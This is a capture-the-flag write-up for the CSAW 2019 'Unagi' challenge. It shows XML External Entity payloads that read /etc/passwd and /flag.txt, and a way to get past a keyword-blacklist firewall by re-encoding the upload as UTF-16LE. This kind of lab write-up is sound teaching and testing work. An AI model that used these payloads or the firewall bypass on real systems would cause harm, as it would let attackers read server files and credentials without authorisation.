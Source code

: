 # Unagi writeup - 200pts

## What we have
The chall provide us with a link to a very basic website of 4 pages:

![Screenshot of the challenge website](Screenshots/1.jpg)

So we know the flag is located at `/flag.txt`.
In the upload page we can download this XML file:

    <?xml version='1.0'?>
	<users>
		<user>
			<username>alice</username>
			<password>passwd1</password>
			<name>Alice</name>
			<email>alice@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
		<user>
			<username>bob</username>
			<password>passwd2</password>
			<name> Bob</name>
			<email>bob@fakesite.com</email>
			<group>CSAW2019</group>
		</user>
	</users>

And uploading it, we get this result:

![Screenshot after the sample.xml upload](Screenshots/2.jpg)

## About the vulnerability
This seems to be the classic situation in which it is possible to exploit an XML External Entity ([XXE](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)) vulnerability.

In these cases the first thing I usually try is the following payload to read a file (for example `/etc/passwd`, which is accessible by any user on linux):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTITY flag SYSTEM "file:///etc/passwd">
	]>
	<users>
	    <user>
	        <username>AAA</username>
	        <password>BBB</password>
	        <name>&flag;</name>
	        <email>CCC</email>  
	        <group>DDD</group>
	    </user>
	</users>

But there's a Web Application Firewall (WAF) that is blocking our file:

![Screenshot of the WAF blocking our exploit](Screenshots/3.jpg)

## The WAF
Trying to remove or change some things, I realized that the WAF checks that the content of the file does not correspond to a blacklist of words.

For example, the following code (I just added an "X" inside "ENTITY" , "SYSTEM" and "file") is not blocked (but it no longer works):

    <?xml version='1.0'?>
	<!DOCTYPE foo [
		<!ENTXITY flag SYSXTEM "fiXle:///etc/passwd">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>&flag;</name>
			<email>CCC</email>  
			<group>DDD</group>
		</user>
	</users>

Two options to bypass the WAF:
- don't use blacklisted words (maybe impossible)
- [play with encodings](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0#a3ca)

I just tried to save the original payload (after adding `encoding='utf-16'` to the XML opening tag) in UFT-16LE (I used Notepad++ on Windows, but I'm sure that other editors can make this too; for example I've seen someone doing this challenge with VSCode and others with Gedit and [some terminal commands](https://stackoverflow.com/questions/64860/best-way-to-convert-text-files-between-character-sets)).

Uploading it, we can finally read `/etc/passwd`... Or not?

![Output is truncated, screenshot](Screenshots/4.jpg)

Argh, our output is truncated!

At this point, I propose two solutions.

## Solution #1 - Look for another output field
I checked all the others output fields and... They were all truncated.

After a while, I realized that the "User" page (look at the first screenshot of this writeup) showed a field named "intro", which is not used inside the "example format" downloaded.

Maybe it isn't truncated? Let's check, this time trying to obtain the flag file.

(Remember to save this as UTF-16LE to bypass WAF)

    <?xml version='1.0' encoding="utf-16"?>
    <!DOCTYPE foo [
	    <!ENTITY file SYSTEM "file:///flag.txt">
	]>
	<users>
		<user>
			<username>AAA</username>
			<password>BBB</password>
			<name>CCC</name>
			<email>DDD</email>
			<group>EEE</group>
			<intro>&file;</intro>
		</user>
	</users>

![Got the flag](Screenshots/5.jpg)

Bingo!

## Solution 2 - Out Of Band (OOB)
Coming soon; I'm writing it!
